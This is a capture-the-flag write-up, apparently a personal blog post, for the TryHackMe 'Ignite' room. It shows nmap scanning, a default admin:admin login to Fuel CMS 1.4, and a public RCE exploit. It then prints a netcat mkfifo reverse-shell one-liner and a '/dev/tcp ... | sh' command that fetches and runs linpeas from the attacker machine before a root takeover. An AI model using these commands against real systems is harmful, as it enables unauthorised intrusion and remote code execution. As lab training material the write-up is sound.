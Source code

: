 ```yaml
---
title: TryHackMe - Ignite
layout: post
categories:
- TryHackMe
tag:
- ctf,
- privesc,
- exploit
image: "/assets/img/ignite.png"
image_alt: ignite
---
```


A new start-up has a few issues with their web server.. Let's start.

<br>

## 1. Ignite 

Root the box! Designed and created by DarkStar7471, built by Paradox.
Enjoy the room! For future rooms and write-ups, follow @darkstar7471 on Twitter.

<br>

### 1.1 User.txt

Let's do a nmap scan first.

```
$ nmap -sSCV -A -O 10.10.80.114
```

![nmap](/assets/img/tryhackme/ignite/nmap.png)

Only port 80/tcp is open. If we look carefully, there is a directory information in **`robots.txt`**. Disallow: **`/fuel/`**.

![robots](/assets/img/tryhackme/ignite/robots.png)

But first, let's check the website running on port 80. 
Here is a page like this.

![home](/assets/img/tryhackme/ignite/home.png)

As far as I can see, the fuel cms version 1.4 is used here.
There may be a vulnerability in this version, we will check it, but first I want to look at the /fuel/ directory.
Let's go to this directory and see what comes up.

![login](/assets/img/tryhackme/ignite/login.png)

An admin login page appears. By default I tried **`admin:admin`** directly and logged in D:
I didn't expect the admin page to be so easy to reach. Let's see what we find here.

![fuel](/assets/img/tryhackme/ignite/fuel.png)

I'm checking every link on the page to see if we can somehow apply a reverse shell.
But I couldn't find anything remarkable. So I searched in exploit-db if we can find a vulnerability about fuel cms v1.4 that we discovered earlier.

![search](/assets/img/tryhackme/ignite/search.png)

We found something important here. I see that we can exploit the RCE vulnerability in 1.4. Let's take a look at the most recent of them.

![db](/assets/img/tryhackme/ignite/db.png)

I'm downloading the exploit file from here. And now let's run it.

```
$ python 50477.py -u http://10.10.9.177
```

![payload](/assets/img/tryhackme/ignite/payload.png)

We log in to the system, and we provide a clearer connection by using one of the [pentest monkey's reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

![monkey](/assets/img/tryhackme/ignite/monkey.png)

First, we set up a netcat listener on our own machine.

```
$ nc -nlvp 4444
```

Then we enter the following code on the target machine.

```
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.86.168 4444 >/tmp/f
```

And we are inside.

![in](/assets/img/tryhackme/ignite/in.png)

To find user.txt, I first look at the user directories in the /home directory. There is a user and that is www-data. We go in and take the flag right away.

```
$ ls -la /home
$ ls -la /home/www-data
$ cat /home/www-data/user.txt
```

![user-flag](/assets/img/tryhackme/ignite/user-flag.png)

<br>

### 1.2 Root.txt

I'm scanning the system with [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20230319) to upgrade privileges. 

First, I run the following code in the directory where linpeas.sh is located on my own machine.

```
$ sudo nc -q 5 -lvnp 80 < linpeas.sh
```

Then I run the following code on the target machine.

```
$ cat < /dev/tcp/10.8.86.168/80 | sh
```

![run](/assets/img/tryhackme/ignite/run.png)

And it worked. Now we're waiting to see if we can find anything useful.

![linpeas](/assets/img/tryhackme/ignite/linpeas.png)

**`Password: ******`**

We found a password information, but I don't know what it is for. But let's try it for root.

First, let's call a shell using python. Then let's try logging in.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ su root
Password: ******
```

It worked :D. We have successfully rooted.

![privesc](/assets/img/tryhackme/ignite/privesc.png)

Now we can get to root.txt let's get the flag.

![root-flag](/assets/img/tryhackme/ignite/root-flag.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
